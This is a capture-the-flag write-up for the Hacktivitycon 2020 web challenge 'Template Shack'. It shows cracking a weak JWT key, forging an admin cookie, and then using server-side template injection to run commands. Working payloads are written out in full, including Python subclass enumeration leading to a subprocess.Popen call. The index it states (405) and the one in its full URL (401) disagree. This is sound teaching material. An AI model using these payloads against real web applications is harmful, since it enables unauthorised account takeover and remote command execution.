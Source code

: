 ```yaml
---
title: Template Shack
date: 2020-12-29
excerpt: "'Template Shack' was a challenge in the Web category of Hacktivitycon"
classes: wide
categories: Hacktivitycon2020
tags:
  - hacktivitycon
  - SSTI
  - RCE
  - web
  - jwt
---
```


![img](/assets/images/ctf/hacktivitycon-web-template-shack/0.png)


![img](/assets/images/ctf/hacktivitycon-web-template-shack/1.png)


Nothing out of place. Checking the cookies we see what looks to be a JSON Web Token



![img](/assets/images/ctf/hacktivitycon-web-template-shack/2.png)


[jwt.io](http://jwt.io) confirms that it's a JWT and it's using HS256 as the hashing algorithm. Let's see if we can forge our own by cracking this one.



![img](/assets/images/ctf/hacktivitycon-web-template-shack/3.png)


Using jwt-tool to crack the key



![img](/assets/images/ctf/hacktivitycon-web-template-shack/4.png)


Time to forge our own admin JWT:



![img](/assets/images/ctf/hacktivitycon-web-template-shack/5.png)


By changing the cookie value to our new JWT, we've accessed the admin account



![img](/assets/images/ctf/hacktivitycon-web-template-shack/6.png)


Nothing seems to work here, and the only two options that do work kick back a 404.



![img](/assets/images/ctf/hacktivitycon-web-template-shack/7.png)


Interesting. The URL that's causing the error seems to be reflected on the page. Seems like we can control it.



Since the name of the challenge is 'Template Shack', let's jump right into template injection



`jh2i.com:50023/admin/{{7*7}}`



![img](/assets/images/ctf/hacktivitycon-web-template-shack/8.png)


Template injection is a go!



Starting with



`{{''.__class__.__mro__[1].__subclasses__()}}`



we can look for the `'subprocess.Popen'` class



![img](/assets/images/ctf/hacktivitycon-web-template-shack/9.png)


we need it's exact index in the list. Let's use slicing to find it:



`{{''.__class__.__mro__[1].__subclasses__()[400::]}}`



By continuously slicing higher indicies, we can track down exactly where `subprocess.Popen` is



`{{''.__class__.__mro__[1].__subclasses__()[405::]}}`



![img](/assets/images/ctf/hacktivitycon-web-template-shack/10.png)


Now that it's at the top of the list, we know it's at 405



Payload:



`{{''.__class__.__mro__[1].__subclasses__()[405]('cat flag.txt',shell=True,stdout=-1).communicate()}}`



Full url:



`http://jh2i.com:50023/admin/{{''.__class__.__mro__[1].__subclasses__()[401]('cat flag.txt',shell=True,stdout=-1).communicate()}}`



![img](/assets/images/ctf/hacktivitycon-web-template-shack/11.png)
